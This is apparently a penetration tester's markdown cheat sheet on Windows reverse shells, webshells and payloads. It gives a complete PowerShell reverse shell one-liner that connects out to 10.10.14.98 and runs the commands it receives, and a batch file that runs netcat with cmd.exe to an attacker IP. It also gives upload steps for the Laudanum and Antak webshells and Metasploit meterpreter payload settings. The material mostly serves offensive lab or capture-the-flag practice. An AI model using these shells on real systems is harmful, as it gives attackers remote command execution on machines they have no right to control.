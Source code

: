 
# Windows reverse shells
## Basic powershell reverse shell

```
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.98',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
## reverse shell dll

```


```
## reverse shell .bat
```
@echo off
set ATTACKER_IP=10.10.14.98
set PORT=1234

nc.exe %ATTACKER_IP% %PORT% -e cmd.exe
```
## Nishang


## Webshells

### laudanum
Find the type of shell needed, make copy


![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/bc795f21-8190-4590-a4a3-2fb35488a5fa)
![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/54a0b631-94a3-4ce9-a001-6e5c213c3a7b)


Add our IP


![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/a8ee9650-7b22-4c93-9136-a06e2fe8129a)

Upload file to site, go to location of file.


![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/d49eabfc-1581-497d-bc91-b7346bb9d019)

### antak

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/7d56c6d0-80cf-4e78-92c7-b43b8326ebf2)

change login info

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/0393c2f3-08b3-4015-a1ce-699bbed4e6b2)

Upload go to shell page

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/f5158b1f-e185-4343-9278-23ea1ece5ecc)# Payloads


![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/49b877f9-8979-4760-9b1f-038c410c9e7f)


## Shells with Metasploit

### Staged vs non staged
```
In Metasploit, the “/” character is used to denote whether a payload is staged or not,
so shell_reverse_tcp at index 20 is not staged, whereas shell/reverse_tcp at index 15 is.
```

### msfvenom

![Pasted image 20230508141045](https://github.com/dbissell6/Shadow_Stone/assets/50979196/988055f3-d9a3-4b0a-9e5b-be91b0886c30)

### msfconsole

g will set variable as global, useful when trying different exploits
`setg rhosts 10.10.10.10`


![Pasted image 20230508141206](https://github.com/dbissell6/Shadow_Stone/assets/50979196/efbcf2e5-fec1-4485-ba20-5e988702c92b)


`set payload windows/meterpreter/reverse_tcp`


### show system arch vs payload arch

![Pasted image 20230508154055](https://github.com/dbissell6/Shadow_Stone/assets/50979196/31f9ac3d-5efb-4b31-9237-f0b652376925)

Now can
```
set payload windows/x64/meterpreter/reverse_tcp
```
## Sliver

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/47d173f7-f725-4f09-a7d5-407fd6d67398)

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/61c75ccc-9ad2-4aaa-a186-458ebf22ddff)

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/5844f8d6-9654-4bbf-9079-357bb7c5161e)

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/66e93bb6-8523-46fb-9753-ae8fcbda44ee)
